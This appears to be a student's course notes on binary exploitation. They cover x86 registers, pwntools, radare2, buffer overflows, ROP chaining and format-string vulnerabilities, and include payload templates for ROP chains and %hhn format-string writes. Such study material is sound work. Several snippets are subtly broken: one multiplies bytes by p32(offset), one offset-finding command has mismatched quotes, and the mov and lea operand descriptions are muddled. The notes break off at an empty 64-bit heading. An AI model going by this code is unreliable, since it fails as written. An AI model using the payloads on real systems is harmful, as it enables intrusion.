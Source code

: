# 676 Notes
## Table of Contents
_________
* [Useful Things to Know](#Useful-Things-to-Know)
* [x86 & Assembly](#x86-&-Assembly)
* [pwntools](#pwntools)
* [Radare2](#Radare2)
* [Buffer Overflow](#Buffer-Overflow)
* [ROP Chaining](#ROP-Chaining)
* [GOT PLT Linking & Exploiting](#GOT-PLT-Linking-&-Exploiting)
* [String Format Vulnerabilities](#String-Format-Vulnerabilities)

## Useful Things to Know
_________
#### Tmux:
* Start Tmux with `tmux`
* `ctrl + B + %` to split the screen
* `ctrl + B + O` to switch between panes
* Full list of instructions [here](https://tmuxcheatsheet.com/)

#### Code Snippets:
* Convert from hex bytes to int (b"0x" -> int)
```python
import re
num = int(re.findall(b"([0-9a-f]{6,16})", string)[0], 16)
```

#### Finding Offsets:
* To manually find the offset it is best to run `python -c "print(b"a" * 32)" | filename` starting at 32 and incrementing by 8 until you get a segfault
* After getting a segfault run `dmesg` to see what the output looks like
* The output should be `0x00000000` and if it isn't, decrement the offset by 1 or 2 until it is `0x00000000`

## x86 & Assembly
______________________________________________________
#### Registers (e-- is 32-bit, r-- is 64-bit)
| Register | 64-bit | 32-bit | Purpose |
| :--: | :--: | :--: | :--: | 
| Accumulator | rax | eax | I/0 access, arithmetic, interrupt calls |
| Counter | rcx | ecx | Loop counter |
| Data | rdx | edx | I/O port access, arithmetic |
| Base | rbx | ebx | Base pointer for memory access |
| Stack Pointer | rsp | esp | Holds the top address of the stack |
| Stack Base Pointer | rbp | ebp | Hold base address of the stack |
| Source | rsi | esi | String and memory array copying |
| Destination | rdi | edi | String and memory array copying

#### Instructions
* Parameters: reg- register, mem- memory address, any- reg or mem
* Full list at the [x86 Assembly Guide](https://flint.cs.yale.edu/cs421/papers/x86-asm/asm.html)
| Name | Example | Description |
| :--: | :-----: | :---------: |
| Move | mov {any}, {any} | Copy data from the first operand and paste the data into the second operand |
| Push | push {any} | Pushes operand to the top of the stack (Max of 4 / 8 bytes at a time depending on 32-bit or 64-bit) |
| Pop | pop {any} | Removes top 4 / 8 bytes from the stack and puts puts it in the operand |
| Load Effective Address | lea {mem}, {reg} | Places address of first operand onto the register specified by second operand |

#### System Calls
* Perform syscalls using `int 0x80` in 32-bit and `syscall` in 64-bit
* Full list of syscalls [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
* eax is the type of syscall
* Arguments go ebx, ecx, edx, esi, edi, ebp in that order

## pwntools
____________________
* To enter the interactive terminal type `ipython3`
* First line of code should always be `from pwn import *`
* Put the architecture next using `context.arch = 'amd64'` (Assuming the file is 64-bit)
* When cracking into an executable: `p = process("filename")`
* When cracking into a remote server: `p = remote("ip", port_number)`
* Use `p.recv()` to show anything that the executable is printing
* Use `p.sendline()` or `p.send()` to send the payload
* Use `elf = ELF("filename")` to get any important information about the executable
    - Use `elf.got` to get the values inside of the GOT
    - Use `elf.sym` to get the functions inside of the file
    
## Radare2
_________
* Look at the assembly of an executable using `r2 -Ad filename`
    - `s function_name` or `s memory_address`
        * usually use `s main`
    - `Vpp` to see the code
    - `:db address` to set a breakpoint
        - `:dc` to continue
        
## Buffer Overflow
_____________
#### When to Use:
* If `gets` is used to get data in the executable

#### Application:
* This is used to overrwrite existing local variables
* Find the local variable that you want to overwrite using r2 (it will look like `var int64_t var_20h @ rbp-0x20`)
* Add 4 bytes in 32-bit and 8 bytes in 64-bit for return address

## ROP Chaining
___________________
#### All relevant instructions and the order to use them in:
1. Use `file filename` to see what type of file it is, how it was compiled, and whether it was stripped
    * If file is not stripped:
        * Use `rabin2 -s filename` to see all of the functions and their locations inside of the executable
        * Use `rabin2 -z filename` to see all of the strings and their locations inside of the executable
2. Use `checksec filename` to see possible vulnerabilities
3. Use `r2 -Ad filename` to get any necessary function and argument locations
4. Use ` ROPgadget --binary filename | grep pop` to get a `pop; ret` statement
    * The number of pop statements depends on the number of arguments, 3 args = 3 pops
    
#### Application:
* 32-bit:
    * ```python
    from pwn import *
    offset = 44 # it's usually 44, but it might not be
    function_address = ___
    pop_address = ___
    argument = ___
    inject = b"a" * p32(offset) + p32(function_address) + p32(pop_address) + p32(argument)
    ```
* 64-bit:
    * ```python
    from pwn import *
    offset = 40 # it's usually 40, but it might not be
    function_address = ___
    pop_address = ___
    argument = ___
    inject = b"a" * p64(offset) + p64(pop_address) + p64(argument) + p64(function_address)
    ```
    
## GOT PLT Linking & Exploiting
_________
All relevant instructions and the order to use them in:
1. Use `ldd filename` to get the location of libc (will look like `libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6`)

## String Format Vulnerabilities
___
#### When to Use:
* When asked for input type `%p`, if something other than `%p` shows up, there is a printf vulnerability

#### How to Use:
##### 32-bit:
1. Start with `%1$p`, `%2$p`, and continue until you see the hex value for what you input (if you input `%p` the hex will be `0x20702520`)
2. Do `inject = p32(target_address)`
3. Increase the size of what gets printed by using `%Sx` where S is the number of spaces to add (x is just the letter x)
4. Write the width of the injection to the target as bytes
    * Assuming N is the argument number:
        * 1 byte: `%N$hhn`
        * 2 bytes: `%N$hn`
        * 4 bytes: `%N$n`
        * 8 bytes: `%N$lln`
* Payload will look like:
```python
from pwn import *
inject = p32(target_address) + b"%Sx" + b"%N$hhn" # S = number of spaces to add, N = argument number
```

##### 64-bit:
